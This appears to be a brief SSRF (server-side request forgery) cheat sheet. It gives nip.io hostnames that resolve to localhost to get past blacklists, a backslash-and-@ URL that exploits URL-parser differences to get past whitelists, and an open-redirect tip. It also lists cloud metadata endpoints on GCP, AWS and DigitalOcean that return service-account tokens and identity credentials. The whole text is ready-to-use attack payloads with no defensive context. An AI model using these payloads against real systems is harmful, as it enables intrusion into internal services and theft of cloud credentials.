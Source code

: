
### **Blacklist:**

* http://127-0-0-1.nip.io
*  http://75000001.nip.io
    * Both Resolve to http://127.0.0.1

### Whitelist:

* Find open redirect with **301 or 302**
* **Backslash Trick** ==> http://127.0.0.1\@www.whitelisted_domain.com
	* **RFC 3986** treats everything before @ as the userinfo section whereas **WHATWG** `Web Hypertext Application Technology Working Group` treats backslash as ending of hostname

### **Cloud Env Enumeration:**

* **GCP** ==> http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token?alt=json
* **AWS** ==> http://169.254.169.254/latest/meta-data/identity-credentials
* **Digital Ocean** ==> http://169.254.169.254/metadata/v1.json

